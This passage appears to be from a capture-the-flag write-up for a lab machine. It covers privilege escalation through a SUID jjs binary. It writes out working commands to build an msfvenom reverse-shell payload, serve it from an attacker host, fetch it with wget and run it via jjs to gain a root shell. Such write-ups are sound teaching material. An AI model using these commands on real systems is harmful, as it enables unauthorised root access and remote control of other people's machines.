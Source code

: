 Looking at SUID files in the `admin` group shows an interesting file:

```bash
find / -perm -u=s -group admin -type f -exec ls -lad {} \; 2>/dev/null
```

![user3](./mango/user3.png)

This `jjs` binary is a known path for escalation:

- https://gtfobins.github.io/gtfobins/jjs/

Since the SUID and SGID bits are set, make a payload that uses the SUID bit to get a reverse shell as `root`:

```bash
# run on kali
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         PrependSetuid=true \
         -f elf \
         -o bubba.root.elf
sudo python3 -m http.server 80
nc -nvlp 7777
# run on target as admin
wget -O /dev/shm/bubba.root.elf 10.10.14.25/bubba.root.elf
chmod +x /dev/shm/bubba.root.elf
echo "Java.type('java.lang.Runtime').getRuntime().exec('/dev/shm/bubba.root.elf').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

This returns a shell as `root`:

![root1](./mango/root1.png)

